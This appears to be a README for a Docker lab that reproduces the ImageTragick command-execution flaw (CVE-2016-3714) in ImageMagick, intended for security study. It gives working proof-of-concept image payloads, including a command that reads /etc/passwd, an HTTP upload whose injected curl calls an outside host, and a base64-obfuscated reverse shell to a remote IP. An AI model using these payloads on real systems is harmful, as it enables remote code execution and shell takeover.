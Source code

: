# Imagetragick Command Execution Vulnerability (CVE-2016–3714)

[中文版本(Chinese version)](README.zh-cn.md)

The principle and details are as follows:

- https://imagetragick.com/
- https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html

## Environment Setup

Enter the following commands:

```
docker-compose build
docker-compose up -d
```

Visit `http://your-ip/` and you'll see three files:

```bash
├── demo.php # use vul.jpg+identify command to test 
├── upload.php # Support users to upload a file，deliver it to PHP's imagick extension, and then the vulnerability will be triggered .
└── vul.jpg # a simple POC
```

## POC

Some POCs used: https://github.com/ImageTragick/PoCs

You can take a test by visiting `http://your-ip/demo.php`. Even though the command   executed (`cat /etc/passwd > /tmp/success`) has no echo reply, we successfully obtain the `/tmp/success` file in the docker container:

![](1.png)

Also you can visit `http://your-ip/upload.php` to test another POC. Upload the POC file and packets are as follows（**Attention，this is another POC**）：

```
POST /upload.php HTTP/1.1
Host: your-ip
Content-Length: 321
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.133 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydGYwkOC91nnON1ws
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Connection: close

------WebKitFormBoundarydGYwkOC91nnON1ws
Content-Disposition: form-data; name="file_upload"; filename="vul.gif"
Content-Type: image/jpeg

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "www.leavesongs.com:8889)'
pop graphic-context
------WebKitFormBoundarydGYwkOC91nnON1ws--

```

As shown，`www.leavesongs.com:8889` has received the http request，proving that the curl command is executed successfully：

![](2.png)

POC of getting a shell：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d | bash`"||id " )'
pop graphic-context
```

![](3.png)
